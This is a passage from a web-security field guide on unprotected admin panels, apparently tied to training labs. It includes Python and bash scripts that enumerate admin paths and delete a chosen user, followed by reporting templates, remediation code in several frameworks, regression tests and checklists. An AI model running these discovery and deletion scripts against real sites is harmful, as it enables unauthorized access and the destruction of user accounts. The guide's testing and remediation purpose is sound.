# Burp Suite proxy configuration (comment out for direct connection)
PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}

# Common admin paths wordlist
ADMIN_PATHS = [
    "/admin",
    "/admin/",
    "/administrator",
    "/administrator/",
    "/administrator-panel",
    "/administratorpanel",
    "/admin-panel",
    "/adminpanel",
    "/manage",
    "/manager",
    "/management",
    "/panel",
    "/controlpanel",
    "/console",
    "/backoffice",
    "/backend",
    "/internal",
    "/private",
    "/staff",
    "/superadmin",
    "/webadmin",
    "/sysadmin",
    "/portal",
    "/wp-admin",
    "/phpmyadmin",
    "/_admin",
    "/admin123",
]

# Keywords indicating admin functionality
ADMIN_INDICATORS = [
    "admin",
    "administrator",
    "delete",
    "users",
    "manage",
    "panel",
    "dashboard",
    "control",
    "settings",
    "configuration"
]


def banner():
    """Print script banner."""
    print("""
    +-----------------------------------------------------------+
    |  Unprotected Admin Functionality - Discovery Script       |
    |  For authorized security testing only                     |
    +-----------------------------------------------------------+
    """)


def check_robots_txt(session: requests.Session, base_url: str) -> List[str]:
    """Check robots.txt for disallowed admin paths."""
    discovered = []
    robots_url = urljoin(base_url, "/robots.txt")
    
    print(f"[*] Checking robots.txt: {robots_url}")
    
    try:
        response = session.get(robots_url, timeout=10)
        if response.status_code == 200:
            print(f"[+] robots.txt found!")
            for line in response.text.splitlines():
                line = line.strip().lower()
                if line.startswith("disallow:"):
                    path = line.split(":", 1)[1].strip()
                    if any(indicator in path for indicator in ADMIN_INDICATORS):
                        print(f"    [!] Potential admin path: {path}")
                        discovered.append(path)
    except requests.RequestException as e:
        print(f"[-] Error checking robots.txt: {e}")
    
    return discovered


def looks_like_admin_panel(html: str) -> bool:
    """Heuristic check if HTML content appears to be an admin panel."""
    html_lower = html.lower()
    
    # Must contain 'admin' AND at least one action indicator
    if "admin" not in html_lower:
        return False
    
    action_indicators = ["delete", "edit", "manage", "users", "settings", 
                        "configuration", "create", "modify", "remove"]
    
    return any(indicator in html_lower for indicator in action_indicators)


def discover_admin_panel(
    session: requests.Session, 
    base_url: str,
    additional_paths: Optional[List[str]] = None
) -> Optional[Tuple[str, str]]:
    """
    Attempt to discover admin panel through common paths.
    Returns tuple of (path, full_url) if found, None otherwise.
    """
    paths_to_check = ADMIN_PATHS.copy()
    
    if additional_paths:
        paths_to_check.extend(additional_paths)
        # Remove duplicates while preserving order
        paths_to_check = list(dict.fromkeys(paths_to_check))
    
    print(f"\n[*] Probing {len(paths_to_check)} common admin paths...")
    
    for path in paths_to_check:
        url = urljoin(base_url.rstrip("/") + "/", path.lstrip("/"))
        
        try:
            response = session.get(url, timeout=10, allow_redirects=True)
            status = response.status_code
            
            # Brief status indicator
            status_symbol = {200: "+", 301: ">", 302: ">", 
                           403: "!", 404: "-"}.get(status, "?")
            
            if status == 200 and looks_like_admin_panel(response.text):
                print(f"[{status_symbol}] {path}: {status} <- ADMIN PANEL FOUND!")
                return (path, url)
            elif status in [200, 301, 302]:
                print(f"[{status_symbol}] {path}: {status}")
            # Skip printing 404s to reduce noise
            
        except requests.RequestException as e:
            print(f"[!] {path}: Error - {e}")
    
    return None


def extract_delete_endpoints(html: str, base_url: str) -> List[dict]:
    """Extract user deletion endpoints from admin panel HTML."""
    import re
    
    endpoints = []
    # Pattern for delete links: href="/admin/delete?username=carlos"
    pattern = r'href=["\']([^"\']*delete[^"\']*username=([^"\'&]+))["\']'
    
    for match in re.finditer(pattern, html, re.IGNORECASE):
        endpoint = match.group(1)
        username = match.group(2)
        full_url = urljoin(base_url, endpoint)
        endpoints.append({
            "username": username,
            "endpoint": endpoint,
            "full_url": full_url
        })
    
    return endpoints


def delete_user(
    session: requests.Session, 
    delete_url: str, 
    username: str
) -> bool:
    """
    Attempt to delete a user via the admin panel.
    Returns True if deletion appears successful.
    """
    print(f"\n[*] Attempting to delete user: {username}")
    print(f"[*] DELETE URL: {delete_url}")
    
    try:
        response = session.get(delete_url, timeout=10, allow_redirects=True)
        
        print(f"[*] Response status: {response.status_code}")
        
        # Check for success indicators
        if response.status_code in [200, 302]:
            response_lower = response.text.lower()
            
            # User should no longer appear in the response
            if username.lower() not in response_lower:
                print(f"[+] SUCCESS: User '{username}' appears to be deleted!")
                return True
            
            # Check for success messages
            success_indicators = ["deleted", "removed", "success", "congratulations"]
            if any(ind in response_lower for ind in success_indicators):
                print(f"[+] SUCCESS: Deletion confirmed by response content!")
                return True
        
        print(f"[-] Deletion may have failed. Manual verification recommended.")
        return False
        
    except requests.RequestException as e:
        print(f"[-] Error during deletion: {e}")
        return False


def main():
    """Main execution flow."""
    banner()
    
    parser = argparse.ArgumentParser(
        description="Unprotected Admin Functionality - Discovery Script"
    )
    parser.add_argument("url", help="Target base URL")
    parser.add_argument(
        "--delete-user", 
        dest="delete_user",
        help="Username to delete (e.g., carlos)"
    )
    parser.add_argument(
        "--no-proxy",
        action="store_true",
        help="Disable Burp proxy routing"
    )
    parser.add_argument(
        "--cookie",
        help="Session cookie value for authenticated testing"
    )
    
    args = parser.parse_args()
    
    # Normalize base URL
    base_url = args.url.rstrip("/")
    if not base_url.startswith(("http://", "https://")):
        base_url = "https://" + base_url
    
    print(f"[*] Target: {base_url}")
    
    # Setup session
    session = requests.Session()
    session.verify = False  # Disable SSL verification for labs
    session.headers.update({
        "User-Agent": "UnprotectedAdminFieldGuide/2.0 (Security Testing)"
    })
    
    # Configure proxy
    if not args.no_proxy:
        session.proxies = PROXIES
        print(f"[*] Routing through proxy: {PROXIES['http']}")
    
    # Add cookie if provided
    if args.cookie:
        session.cookies.set("session", args.cookie)
        print(f"[*] Using provided session cookie")
    
    # Phase 1: Check robots.txt
    print("\n" + "="*60)
    print("PHASE 1: Passive Reconnaissance")
    print("="*60)
    
    robots_paths = check_robots_txt(session, base_url)
    
    # Phase 2: Active Discovery
    print("\n" + "="*60)
    print("PHASE 2: Active Admin Panel Discovery")
    print("="*60)
    
    result = discover_admin_panel(session, base_url, robots_paths)
    
    if not result:
        print("\n[-] No admin panel found in common paths.")
        print("[*] Consider:")
        print("    - Checking JavaScript source for routes")
        print("    - Using a larger wordlist")
        print("    - Analyzing application-specific patterns")
        sys.exit(1)
    
    admin_path, admin_url = result
    
    # Phase 3: Analyze Admin Panel
    print("\n" + "="*60)
    print("PHASE 3: Admin Panel Analysis")
    print("="*60)
    
    response = session.get(admin_url, timeout=10)
    
    print(f"\n[+] Admin Panel URL: {admin_url}")
    print(f"[+] Status Code: {response.status_code}")
    
    # Extract available actions
    delete_endpoints = extract_delete_endpoints(response.text, admin_url)
    
    if delete_endpoints:
        print(f"\n[+] Found {len(delete_endpoints)} user deletion endpoint(s):")
        for ep in delete_endpoints:
            print(f"    - {ep['username']}: {ep['endpoint']}")
    
    # Phase 4: Exploitation (if requested)
    if args.delete_user:
        print("\n" + "="*60)
        print("PHASE 4: Exploitation")
        print("="*60)
        
        # Find the delete endpoint for the target user
        target_endpoint = None
        for ep in delete_endpoints:
            if ep['username'].lower() == args.delete_user.lower():
                target_endpoint = ep
                break
        
        if target_endpoint:
            success = delete_user(
                session, 
                target_endpoint['full_url'], 
                args.delete_user
            )
            if success:
                print("\n[+] Lab objective completed!")
            sys.exit(0 if success else 1)
        else:
            # Construct delete URL manually
            delete_url = f"{admin_url}/delete?username={args.delete_user}"
            success = delete_user(session, delete_url, args.delete_user)
            sys.exit(0 if success else 1)
    
    # Summary
    print("\n" + "="*60)
    print("SUMMARY")
    print("="*60)
    print(f"""
[+] Vulnerability Confirmed: Unprotected Admin Functionality
[+] Admin Panel: {admin_url}
[+] Authentication Required: No (or insufficient)
[+] Impact: Unauthorized access to administrative functions

To complete exploitation, run:
    python3 {sys.argv[0]} {args.url} --delete-user carlos
    """)


if __name__ == "__main__":
    main()
\end{lstlisting}

\subsection{Bash Script: Quick Discovery}

\begin{lstlisting}[language=bash,caption={Bash one-liner admin discovery}]
#!/bin/bash
# Quick admin panel discovery using curl
# Usage: ./admin_discover.sh https://target.example.com

TARGET="$1"

if [ -z "$TARGET" ]; then
    echo "Usage: $0 <BASE_URL>"
    exit 1
fi

echo "[*] Target: $TARGET"
echo "[*] Checking common admin paths..."

PATHS=(
    "/admin"
    "/administrator" 
    "/administrator-panel"
    "/admin-panel"
    "/manage"
    "/console"
    "/backoffice"
)

for path in "${PATHS[@]}"; do
    url="${TARGET}${path}"
    status=$(curl -s -o /dev/null -w "%{http_code}" -k "$url")
    
    if [ "$status" == "200" ]; then
        echo "[+] FOUND: $path -> $status"
    elif [ "$status" == "302" ] || [ "$status" == "301" ]; then
        echo "[>] REDIRECT: $path -> $status"
    elif [ "$status" == "403" ]; then
        echo "[!] FORBIDDEN: $path -> $status"
    fi
done

# Check robots.txt
echo ""
echo "[*] Checking robots.txt..."
curl -s -k "${TARGET}/robots.txt" | grep -i "disallow.*admin"
\end{lstlisting}

\subsection{Python Script: Burp Integration}

\begin{lstlisting}[language=python,caption={Script with explicit Burp proxy integration for debugging}]
#!/usr/bin/env python3
"""
Admin Panel Exploitation with Burp Proxy Integration
Sends all traffic through Burp for analysis and debugging.
"""

import sys
import requests
import urllib3

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy settings
PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}


def delete_user(base_url: str, username: str = "carlos") -> bool:
    """
    Attempt to delete a user via unprotected admin panel.
    All requests routed through Burp for debugging.
    """
    # Construct admin panel URL
    admin_panel_url = f"{base_url}/administrator-panel"
    
    print(f"[*] Finding admin panel: {admin_panel_url}")
    
    # First request: Access admin panel
    response = requests.get(
        admin_panel_url,
        verify=False,      # Don't verify SSL (lab environment)
        proxies=PROXIES,   # Route through Burp
        timeout=15,
        allow_redirects=True
    )
    
    if response.status_code != 200:
        print(f"[-] Admin panel not found. Status: {response.status_code}")
        print("[-] Exiting script.")
        return False
    
    print(f"[+] Found administrator panel!")
    print(f"[*] Deleting {username} user...")
    
    # Second request: Delete user
    delete_url = f"{admin_panel_url}/delete?username={username}"
    
    response = requests.get(
        delete_url,
        verify=False,
        proxies=PROXIES,
        timeout=15,
        allow_redirects=True
    )
    
    if response.status_code == 200:
        # Verify user is deleted by checking response content
        if username.lower() not in response.text.lower():
            print(f"[+] {username} user deleted successfully!")
            return True
        elif "congratulations" in response.text.lower():
            print(f"[+] {username} user deleted! Lab solved!")
            return True
    
    print(f"[-] Could not delete user. Status: {response.status_code}")
    return False


def main():
    """Main entry point."""
    if len(sys.argv) != 2:
        script_name = sys.argv[0]
        print(f"Usage: {script_name} <URL>")
        print(f"Example: {script_name} https://0a123456.web-security-academy.net")
        sys.exit(2)
    
    # Get URL from command line, remove trailing slash
    url = sys.argv[1].rstrip("/")
    
    print("[*] Unprotected Admin Functionality Exploit")
    print(f"[*] Target: {url}")
    print(f"[*] Proxy: {PROXIES['http']}")
    print()
    
    success = delete_user(url)
    
    sys.exit(0 if success else 1)


if __name__ == "__main__":
    main()
\end{lstlisting}

% ============================================================
\section{Evidence Collection and Reporting}
% ============================================================

\subsection{Minimum Evidence Requirements}

For a valid vulnerability report, collect:

\begin{enumerate}
  \item \textbf{Discovery Evidence}
  \begin{itemize}
    \item Method used (robots.txt, path guessing, source analysis)
    \item Request/response showing admin path discovery
    \item Screenshot of robots.txt or relevant discovery mechanism
  \end{itemize}
  
  \item \textbf{Access Validation Evidence}
  \begin{itemize}
    \item Full HTTP request to admin panel (including headers)
    \item Full HTTP response showing admin content
    \item Proof of user context (e.g., lack of admin session cookie)
    \item Comparison with legitimate admin access (if available)
  \end{itemize}
  
  \item \textbf{Impact Demonstration}
  \begin{itemize}
    \item Request/response showing admin action execution
    \item Before/after state showing the effect of the action
    \item Documentation of available admin functions
  \end{itemize}
\end{enumerate}

\subsection{Burp Suite Evidence Export}

\begin{enumerate}
  \item \textbf{Save project file}: File $\rightarrow$ Save project as $\rightarrow$ \code{unprotected-admin-evidence.burp}
  
  \item \textbf{Export specific requests}:
  \begin{itemize}
    \item Select request in HTTP history
    \item Right-click $\rightarrow$ Save item
    \item Choose format: XML (complete) or text (human-readable)
  \end{itemize}
  
  \item \textbf{Generate report}: Target $\rightarrow$ Right-click site $\rightarrow$ Issues $\rightarrow$ Report issues
\end{enumerate}

\subsection{Report Template Structure}

\begin{lstlisting}[caption={Vulnerability report template}]
# Vulnerability Report: Unprotected Admin Functionality

## Executive Summary
The application exposes administrative functionality at [URL] without
enforcing authorization. Any user (including unauthenticated visitors)
can access admin functions and perform privileged actions such as 
user deletion.

## Severity Assessment
- CVSS v3.1 Base Score: 9.8 (Critical)
- Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- Classification: CWE-862 (Missing Authorization)

## Technical Details

### Affected Endpoint
- URL: https://target.example.com/administrator-panel
- HTTP Method: GET
- Authentication Required: None

### Discovery Method
The admin panel path was discovered via robots.txt analysis:
[Include robots.txt content]

### Proof of Concept

#### Request 1: Admin Panel Access (Unauthenticated)
[Include full HTTP request]

#### Response 1: Admin Content Returned
[Include relevant response excerpt]

#### Request 2: Privileged Action Execution
[Include delete request]

#### Response 2: Action Completed
[Include response showing success]

## Impact Analysis
An attacker can:
1. View all registered users
2. Delete any user account
3. [Additional actions observed]

## Remediation Recommendations
1. Implement server-side authorization on all admin routes
2. Use deny-by-default access control
3. Add authorization checks at the function level
4. Implement logging and alerting for admin actions

## References
- OWASP Testing Guide: Authorization Testing
- CWE-862: Missing Authorization
\end{lstlisting}

% ============================================================
\section{Remediation Patterns}
% ============================================================

\subsection{Core Remediation Principles}

\begin{enumerate}
  \item \textbf{Server-side enforcement}: Never rely on client-side controls
  \item \textbf{Deny by default}: Require explicit permission grants
  \item \textbf{Centralized policy}: Use middleware/filters for consistency
  \item \textbf{Defense in depth}: Multiple layers of authorization checks
  \item \textbf{Audit logging}: Record all admin access and actions
  \item \textbf{Regular testing}: Automated regression tests for access control
\end{enumerate}

\subsection{Implementation Examples}

\subsubsection{Express.js (Node.js)}

\begin{lstlisting}[language=javascript,caption={Express.js: Complete admin protection middleware}]
const express = require('express');
const app = express();

// Authentication middleware
function requireAuth(req, res, next) {
  if (!req.session || !req.session.userId) {
    return res.status(401).json({ 
      error: 'Authentication required' 
    });
  }
  next();
}

// Authorization middleware for admin routes
function requireAdmin(req, res, next) {
  // First check authentication
  if (!req.session || !req.session.userId) {
    return res.status(401).json({ 
      error: 'Authentication required' 
    });
  }
  
  // Then check authorization
  if (!req.session.roles || !req.session.roles.includes('admin')) {
    // Log unauthorized access attempt
    console.warn(`Unauthorized admin access attempt by user: ${req.session.userId}`);
    return res.status(403).json({ 
      error: 'Admin privileges required' 
    });
  }
  
  next();
}

// Apply admin protection to all /admin routes
app.use('/admin', requireAdmin);
app.use('/administrator', requireAdmin);
app.use('/administrator-panel', requireAdmin);
app.use('/manage', requireAdmin);

// Admin routes (protected by middleware above)
app.get('/admin', (req, res) => {
  res.render('admin-dashboard');
});

app.get('/admin/users', (req, res) => {
  // Additional function-level check (defense in depth)
  if (!req.session.permissions.includes('user:read')) {
    return res.status(403).json({ error: 'Insufficient permissions' });
  }
  // ... return user list
});

app.delete('/admin/users/:userId', (req, res) => {
  // Additional function-level check
  if (!req.session.permissions.includes('user:delete')) {
    return res.status(403).json({ error: 'Insufficient permissions' });
  }
  // ... delete user logic
});
\end{lstlisting}

\subsubsection{Django (Python)}

\begin{lstlisting}[language=python,caption={Django: Admin protection with decorators and mixins}]
from django.contrib.auth.decorators import login_required, user_passes_test
from django.contrib.auth.mixins import LoginRequiredMixin, UserPassesTestMixin
from django.http import HttpResponseForbidden
from django.views import View
import logging

logger = logging.getLogger(__name__)

# Helper function for admin check
def is_admin(user):
    """Check if user has admin privileges."""
    return user.is_authenticated and (user.is_staff or user.is_superuser)

# Decorator-based protection for function views
@login_required
@user_passes_test(is_admin, login_url='/forbidden/')
def admin_dashboard(request):
    """Admin dashboard - requires admin role."""
    return render(request, 'admin/dashboard.html')

@login_required
@user_passes_test(is_admin)
def delete_user(request, user_id):
    """Delete a user - requires admin role."""
    # Additional permission check (defense in depth)
    if not request.user.has_perm('auth.delete_user'):
        logger.warning(
            f"User {request.user.id} attempted unauthorized user deletion"
        )
        return HttpResponseForbidden("Permission denied")
    
    # ... deletion logic
    return redirect('admin_users')

# Class-based view with mixin protection
class AdminRequiredMixin(LoginRequiredMixin, UserPassesTestMixin):
    """Mixin that requires admin privileges."""
    
    def test_func(self):
        return self.request.user.is_staff or self.request.user.is_superuser
    
    def handle_no_permission(self):
        logger.warning(
            f"Unauthorized admin access attempt: {self.request.user}"
        )
        return HttpResponseForbidden("Admin access required")

class UserManagementView(AdminRequiredMixin, View):
    """User management view - protected by mixin."""
    
    def get(self, request):
        users = User.objects.all()
        return render(request, 'admin/users.html', {'users': users})
    
    def delete(self, request, user_id):
        # ... delete logic
        pass

# URL configuration with admin prefix
# urls.py
from django.urls import path
from . import views

urlpatterns = [
    path('admin/dashboard/', views.admin_dashboard, name='admin_dashboard'),
    path('admin/users/', views.UserManagementView.as_view(), name='admin_users'),
    path('admin/users/<int:user_id>/delete/', views.delete_user, name='delete_user'),
]
\end{lstlisting}

\subsubsection{Spring Security (Java)}

\begin{lstlisting}[language=java,caption={Spring Security: Comprehensive admin protection}]
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.security.config.annotation.method.configuration.EnableMethodSecurity;
import org.springframework.security.config.annotation.web.builders.HttpSecurity;
import org.springframework.security.config.annotation.web.configuration.EnableWebSecurity;
import org.springframework.security.web.SecurityFilterChain;
import org.springframework.security.access.prepost.PreAuthorize;
import org.springframework.web.bind.annotation.*;

@Configuration
@EnableWebSecurity
@EnableMethodSecurity(prePostEnabled = true)
public class SecurityConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            .authorizeHttpRequests(authz -> authz
                // Public endpoints
                .requestMatchers("/", "/login", "/register", "/public/**").permitAll()
                
                // Admin endpoints - require ADMIN role
                .requestMatchers("/admin/**").hasRole("ADMIN")
                .requestMatchers("/administrator/**").hasRole("ADMIN")
                .requestMatchers("/administrator-panel/**").hasRole("ADMIN")
                .requestMatchers("/manage/**").hasRole("ADMIN")
                
                // All other endpoints require authentication
                .anyRequest().authenticated()
            )
            .formLogin(form -> form
                .loginPage("/login")
                .defaultSuccessUrl("/dashboard")
            )
            .exceptionHandling(ex -> ex
                .accessDeniedPage("/access-denied")
            );
        
        return http.build();
    }
}

// Admin Controller with method-level security
@RestController
@RequestMapping("/admin")
public class AdminController {

    private static final Logger logger = LoggerFactory.getLogger(AdminController.class);

    @GetMapping("/dashboard")
    @PreAuthorize("hasRole('ADMIN')")
    public String dashboard() {
        return "admin-dashboard";
    }

    @GetMapping("/users")
    @PreAuthorize("hasRole('ADMIN') and hasAuthority('USER_READ')")
    public List<User> getUsers() {
        return userService.getAllUsers();
    }

    @DeleteMapping("/users/{userId}")
    @PreAuthorize("hasRole('ADMIN') and hasAuthority('USER_DELETE')")
    public ResponseEntity<?> deleteUser(
            @PathVariable Long userId,
            @AuthenticationPrincipal UserDetails currentUser) {
        
        // Audit logging
        logger.info("User deletion requested: {} by admin: {}", 
                   userId, currentUser.getUsername());
        
        userService.deleteUser(userId);
        
        return ResponseEntity.ok().build();
    }
}
\end{lstlisting}

\subsubsection{Flask (Python)}

\begin{lstlisting}[language=python,caption={Flask: Admin protection with decorators}]
from functools import wraps
from flask import Flask, session, redirect, url_for, abort, request
from flask_login import login_required, current_user
import logging

app = Flask(__name__)
logger = logging.getLogger(__name__)

def admin_required(f):
    """Decorator that requires admin privileges."""
    @wraps(f)
    @login_required
    def decorated_function(*args, **kwargs):
        if not current_user.is_admin:
            logger.warning(
                f"Unauthorized admin access attempt by user {current_user.id} "
                f"to {request.path}"
            )
            abort(403)
        return f(*args, **kwargs)
    return decorated_function

def permission_required(permission):
    """Decorator factory for specific permission checks."""
    def decorator(f):
        @wraps(f)
        @login_required
        def decorated_function(*args, **kwargs):
            if not current_user.has_permission(permission):
                logger.warning(
                    f"Permission denied: {permission} for user {current_user.id}"
                )
                abort(403)
            return f(*args, **kwargs)
        return decorated_function
    return decorator

# Admin routes
@app.route('/admin')
@admin_required
def admin_dashboard():
    return render_template('admin/dashboard.html')

@app.route('/admin/users')
@admin_required
@permission_required('user:read')
def admin_users():
    users = User.query.all()
    return render_template('admin/users.html', users=users)

@app.route('/admin/users/<int:user_id>/delete', methods=['POST'])
@admin_required
@permission_required('user:delete')
def delete_user(user_id):
    user = User.query.get_or_404(user_id)
    
    # Prevent self-deletion
    if user.id == current_user.id:
        abort(400, "Cannot delete your own account")
    
    db.session.delete(user)
    db.session.commit()
    
    logger.info(f"User {user_id} deleted by admin {current_user.id}")
    
    return redirect(url_for('admin_users'))
\end{lstlisting}

\subsubsection{PHP (Laravel)}

\begin{lstlisting}[language=python,caption={Laravel: Admin middleware and policies (PHP syntax)}]
<?php
// app/Http/Middleware/AdminMiddleware.php

namespace App\Http\Middleware;

use Closure;
use Illuminate\Http\Request;
use Illuminate\Support\Facades\Log;

class AdminMiddleware
{
    public function handle(Request $request, Closure $next)
    {
        if (!auth()->check()) {
            return redirect()->route('login');
        }
        
        if (!auth()->user()->isAdmin()) {
            Log::warning('Unauthorized admin access attempt', [
                'user_id' => auth()->id(),
                'path' => $request->path(),
                'ip' => $request->ip()
            ]);
            
            abort(403, 'Admin access required');
        }
        
        return $next($request);
    }
}

// routes/web.php - Apply middleware to admin routes
Route::middleware(['auth', 'admin'])->prefix('admin')->group(function () {
    Route::get('/', [AdminController::class, 'dashboard']);
    Route::get('/users', [AdminController::class, 'users']);
    Route::delete('/users/{user}', [AdminController::class, 'deleteUser']);
});

// app/Http/Controllers/AdminController.php
namespace App\Http\Controllers;

use App\Models\User;
use Illuminate\Http\Request;

class AdminController extends Controller
{
    public function deleteUser(User $user)
    {
        // Additional authorization check (policy)
        $this->authorize('delete', $user);
        
        $user->delete();
        
        return redirect()->route('admin.users')
            ->with('success', 'User deleted');
    }
}
\end{lstlisting}

\subsection{Nginx/Apache Access Control (Defense in Depth)}

\begin{lstlisting}[language=bash,caption={Nginx: IP-based admin restriction (additional layer)}]
# /etc/nginx/sites-available/app.conf

server {
    listen 443 ssl;
    server_name app.example.com;
    
    # Admin paths - restrict to internal network
    location ~ ^/(admin|administrator|manage)/ {
        # Allow internal network
        allow 10.0.0.0/8;
        allow 192.168.0.0/16;
        allow 172.16.0.0/12;
        
        # Deny all others
        deny all;
        
        # Still proxy to application (which does its own auth)
        proxy_pass http://backend;
    }
    
    # All other paths
    location / {
        proxy_pass http://backend;
    }
}
\end{lstlisting}

\subsection{Automated Testing for Access Control}

\begin{lstlisting}[language=python,caption={pytest: Automated access control regression tests}]
import pytest
from app import create_app
from app.models import User, db

class TestAdminAccessControl:
    """Regression tests for admin access control."""
    
    @pytest.fixture
    def app(self):
        app = create_app('testing')
        with app.app_context():
            db.create_all()
            yield app
            db.drop_all()
    
    @pytest.fixture
    def client(self, app):
        return app.test_client()
    
    @pytest.fixture
    def admin_user(self, app):
        with app.app_context():
            user = User(username='admin', is_admin=True)
            user.set_password('adminpass')
            db.session.add(user)
            db.session.commit()
            return user
    
    @pytest.fixture
    def normal_user(self, app):
        with app.app_context():
            user = User(username='normal', is_admin=False)
            user.set_password('normalpass')
            db.session.add(user)
            db.session.commit()
            return user
    
    def test_admin_panel_unauthenticated_returns_401_or_redirect(self, client):
        """Unauthenticated users cannot access admin panel."""
        response = client.get('/admin/')
        assert response.status_code in [401, 302]  # Unauthorized or redirect
    
    def test_admin_panel_normal_user_returns_403(self, client, normal_user):
        """Normal users cannot access admin panel."""
        # Login as normal user
        client.post('/login', data={
            'username': 'normal',
            'password': 'normalpass'
        })
        
        response = client.get('/admin/')
        assert response.status_code == 403  # Forbidden
    
    def test_admin_panel_admin_user_returns_200(self, client, admin_user):
        """Admin users can access admin panel."""
        # Login as admin
        client.post('/login', data={
            'username': 'admin',
            'password': 'adminpass'
        })
        
        response = client.get('/admin/')
        assert response.status_code == 200
    
    def test_delete_user_unauthenticated_fails(self, client, normal_user):
        """Unauthenticated users cannot delete users."""
        response = client.delete(f'/admin/users/{normal_user.id}')
        assert response.status_code in [401, 302]
    
    def test_delete_user_normal_user_fails(self, client, normal_user, admin_user):
        """Normal users cannot delete users."""
        client.post('/login', data={
            'username': 'normal',
            'password': 'normalpass'
        })
        
        response = client.delete(f'/admin/users/{admin_user.id}')
        assert response.status_code == 403
    
    # Test all admin paths
    @pytest.mark.parametrize("path", [
        "/admin",
        "/admin/",
        "/administrator",
        "/administrator-panel",
        "/admin/users",
        "/admin/settings",
        "/manage",
    ])
    def test_admin_paths_protected(self, client, path):
        """All admin paths should be protected."""
        response = client.get(path)
        # Should not return 200 for unauthenticated user
        assert response.status_code != 200, f"Path {path} is unprotected!"
\end{lstlisting}

% ============================================================
\section{Testing Checklist}
% ============================================================

\subsection{Pre-Assessment Checklist}

\begin{itemize}[label=$\square$]
  \item Authorization document obtained and reviewed
  \item Test accounts provisioned (unauthenticated, user, admin)
  \item Burp Suite project created for evidence retention
  \item Target scope defined in Burp
  \item Browser proxy configured and verified
  \item Backup of any data that may be modified (if applicable)
\end{itemize}

\subsection{Discovery Checklist}

\begin{itemize}[label=$\square$]
  \item \code{robots.txt} analyzed for disallowed paths
  \item \code{sitemap.xml} reviewed for admin URLs
  \item JavaScript source searched for route definitions
  \item HTML source searched for admin references
  \item Common admin paths enumerated
  \item Application-specific naming patterns tested
  \item Search engine results checked (authorized targets only)
\end{itemize}

\subsection{Validation Checklist}

\begin{itemize}[label=$\square$]
  \item Admin panel tested without authentication
  \item Admin panel tested with low-privilege user
  \item Admin actions tested without authentication
  \item Admin actions tested with low-privilege user
  \item Response differences documented between roles
  \item HTTP methods tested (GET, POST, PUT, DELETE)
  \item Bypass techniques tested if initial access blocked
\end{itemize}

\subsection{Evidence Checklist}

\begin{itemize}[label=$\square$]
  \item Discovery method documented
  \item Full request/response for admin panel access captured
  \item Authentication context clearly shown (or absence thereof)
  \item Admin action request/response captured
  \item Before/after state documented
  \item Screenshots taken of key findings
  \item Burp project file saved
\end{itemize}

\subsection{Remediation Verification Checklist}

\begin{itemize}[label=$\square$]
  \item Fix deployed to test environment
  \item Unauthenticated access returns 401 or redirects to login
  \item Low-privilege user access returns 403
  \item Admin user access works correctly
  \item All admin paths protected (not just main panel)
  \item Admin actions protected individually
  \item Audit logging implemented
  \item Regression tests added
\end{itemize}

% ============================================================
\section{Quick Reference Tables}
% ============================================================

\subsection{Common Admin Path Reference}

\begin{longtable}{@{}llp{7cm}@{}}
\toprule
\textbf{Path} & \textbf{Type} & \textbf{Notes} \\
\midrule
\endhead
\code{/admin} & Generic & Most common; always test first \\
\code{/administrator} & Generic & Common alternative \\
\code{/administrator-panel} & Generic & Lab-style naming \\
\code{/manage} & Generic & Management interface \\
\code{/console} & Generic & Often debug/admin console \\
\code{/wp-admin} & WordPress & WordPress admin \\
\code{/phpmyadmin} & Database & phpMyAdmin database admin \\
\code{/adminer} & Database & Adminer database admin \\
\code{/cpanel} & Hosting & cPanel hosting admin \\
\code{/backoffice} & E-commerce & Back-office management \\
\code{/portal} & Enterprise & Enterprise portal \\
\code{/internal} & Internal & Internal tools \\
\code{/\_admin} & Hidden & Underscore-prefixed \\
\code{/api/admin} & API & Admin API endpoints \\
\bottomrule
\caption{Common admin paths quick reference}
\end{longtable}

\subsection{HTTP Response Interpretation}

\begin{longtable}{@{}lll@{}}
\toprule
\textbf{Status} & \textbf{Meaning} & \textbf{Action} \\
\midrule
\endhead
200 & Success & Analyze content; confirm admin functionality \\
301 & Permanent redirect & Follow; check destination \\
302 & Temporary redirect & Follow; may redirect to login \\
307 & Temporary redirect & Follow; preserves method \\
400 & Bad request & Check request format \\
401 & Unauthorized & Authentication required; test with creds \\
403 & Forbidden & Authorization enforced; test bypasses \\
404 & Not found & Path may not exist; continue enumeration \\
405 & Method not allowed & Try different HTTP method \\
500 & Server error & Analyze error; may indicate partial access \\
\bottomrule
\caption{HTTP status code quick reference}
\end{longtable}

\subsection{Tool Command Quick Reference}

\begin{longtable}{@{}lp{10cm}@{}}
\toprule
\textbf{Task} & \textbf{Command} \\
\midrule
\endhead
ffuf discovery & \code{ffuf -w wordlist.txt -u https://target/FUZZ -mc 200,301,302,403} \\
gobuster & \code{gobuster dir -u https://target -w wordlist.txt} \\
Check robots & \code{curl -s https://target/robots.txt} \\
Check sitemap & \code{curl -s https://target/sitemap.xml} \\
Python with proxy & \code{requests.get(url, proxies=\{"http": "http://127.0.0.1:8080"\})} \\
Search JS routes & \code{grep -r "admin" *.js} \\
\bottomrule
\caption{Tool commands quick reference}
\end{longtable}

% ============================================================
\section{Additional Resources}
% ============================================================

\subsection{Training Labs}

\begin{itemize}
  \item \textbf{PortSwigger Web Security Academy}: \url{https://portswigger.net/web-security/access-control}
  \item \textbf{OWASP WebGoat}: \url{https://owasp.org/www-project-webgoat/}
  \item \textbf{HackTheBox}: \url{https://www.hackthebox.com/}
  \item \textbf{TryHackMe}: \url{https://tryhackme.com/}
  \item \textbf{DVWA}: \url{https://github.com/digininja/DVWA}
\end{itemize}

\subsection{Standards and Guidelines}

\begin{itemize}
  \item \textbf{OWASP Testing Guide}: Testing for Authorization Bypass
  \item \textbf{OWASP ASVS}: V4 Access Control Verification Requirements
  \item \textbf{CWE-862}: Missing Authorization
  \item \textbf{CWE-285}: Improper Authorization
  \item \textbf{NIST SP 800-53}: Access Control (AC) Family
\end{itemize}

\subsection{Tools}

\begin{itemize}
  \item \textbf{Burp Suite}: \url{https://portswigger.net/burp}
